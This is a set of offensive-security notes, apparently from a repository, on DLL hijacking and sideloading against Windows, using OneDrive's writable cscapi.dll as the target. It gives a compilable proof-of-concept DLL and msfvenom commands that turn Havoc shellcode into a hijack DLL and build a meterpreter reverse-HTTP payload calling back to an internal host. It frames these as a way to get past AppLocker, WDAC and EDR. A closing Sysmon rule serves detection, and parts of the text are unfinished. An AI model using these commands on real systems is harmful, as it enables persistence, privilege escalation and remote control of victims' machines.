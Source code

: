 # DLL Hijacking/Sideloading

> WHAT ARE DLLs : At its core, a Dynamic Link Library (DLL) is a file containing code and data that multiple programs can use simultaneously. DLLs are a crucial component in the Windows operating system because Windows heavily relies on them for pretty much anything. Think of it as a shared repository of functionality, accessible to any application that needs it. Unlike static libraries, which are integrated into an application at compile time, DLLs are loaded into memory at runtime, providing a level of flexibility and modularity that is essential for software integrity. Each process started on Windows uses DLLs in order to operate properly. Additionally, DLLs can be also custom made, which means that for different software vendors, dedicated DLLs can be encountered. Usually they are programmed in C/C++, however, this is not the only option. 

> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!

> Additionally, DLL Hijacking bypasses application whitelisteng (applocker/WDAC) and breaks the EDR execution chain, as the DLL is loaded by a signed microsoft executable (i.e. Onedrive), dns/http requests are no longer abnormal

# DLL Hijack/Sideloading
<https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking>
The following code can be used to create a malicious DLL:

Bring your own vulnerable signed MS binary:

OLEVIEW

Why? EDR's will check if dll's loaded by LOL windows binaries happen from the right directory - by dropping a signed binary that is not present on the file system, we evding that detection.

Additionally OLEVIEW will

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE h, DWORD r, LPVOID p) {
    if (r == DLL_PROCESS_ATTACH) {
        MessageBoxW(NULL, L"DLL sideload successful!", L"Debug", MB_OK | MB_ICONINFORMATION);
    }
    return TRUE;
}
```
Compile with:

```code
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
```

# DLL Hijacking
onedrive -> Appdata -> cscapi.dll

- writeable by all users
- hijackable

> EXPORTS -> use exported functions in your dll (csharp dll's don't have a dllmain function)

### 1. NIRSOFT ddlexport viewer

![image](./images/dll_exportviewer.jpg)

### 2. ROHITAB API Monitor
![image](./images/dll_apimon.jpg)

### 3. SYSINTERNALS Process Monitor
![image](./images/dll_procmon.jpg)

### 4. DUMPBIN (Visual Studio)

Check which function onedrive actually imports from VERSION.dll

Open a visual studio developer prompt:

![image](./images/dll_devprompt.jpg)

```bash
cd C:\Users\Threatadmin\AppData\Local\Microsoft\OneDrive
dumpbin OneDrive.exe /imports:VERSION.dll
```
![image](./images/dll_dumpbin.jpg)


# AUTOMTING DLL Sideloadble applications
<https://github.com/Cybereason/siofra>

![image](./images/dll_siofra.jpg)


<https://hijacklibs.net/>

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell

![image](./images/dllsearch.jpg)

# C dll

building your dll

<https://github.com/Pascal-0x90/sideloadr>
<https://github.com/Pascal-0x90/sideloadr/compare/master...WS-G:sideloadr:master>


```bash
rundll32 shell32.dll,Control_RunDLL c:\thev\labs\DLL_Sideloading\version.dll
```

LoaderLock!!!

<https://www.prodefense.io/blog/dll-sideloading>

# Evasion Code Execution

Make sure OneDrive Last released build 25.070.0413.0001 is installed <https://go.microsoft.com/fwlink/?linkid=844652>
```bash
cat demon.x64.bin | msfvenom -p - -a x64 --platform windows -f dll -o cscapi.dll
```

STAGELESS PAYLOAD

```bash
msfvenom -p windows/x64/meterpreter_reverse_http lhost=10.0.0.5 lport=80 -f csharp
```

![Screenshot](./images/codeexec_medr.jpg)

# BYOB (Bring Your own Binary)
OLEVIEW

# DETECTION

Use sysmon to look for loading of known system32/syswow dll's that are :
- not signed
- not loaded from their usual locaction (system32/syswow)

<https://github.com/TactiKoolSec/SideLoadHunter>

```yaml
<Sysmon schemaversion="4.32">
   <!-- Capture all hashes -->
   <HashAlgorithms>*</HashAlgorithms>
   <DnsLookup>False</DnsLookup>
   <ArchiveDirectory>Archive</ArchiveDirectory>
   <EventFiltering>
		<RuleGroup name="onedrivestandaloneupdater_sideload" groupRelation="and">
			<!-- Log only image loads where modules match these conditions -->
			<ImageLoad onmatch="include">
				<Image condition="contains">onedrivestandaloneupdater.exe</Image>
				<ImageLoaded condition="contains">wofutil.dll</ImageLoaded>
				<Signature condition="is not">Microsoft Windows</Signature>
			</ImageLoad>
		</RuleGroup>
  </EventFiltering>
</Sysmon>
```
>Custom detection rules for known Windows DLLs being loaded from non Windows path’s such as System32 could also be used to identify DLL Sideloading attacks. Doing this for non Windows DLLs however is not that easy, as there are too many different vendors and binaries/DLLs to track all of them.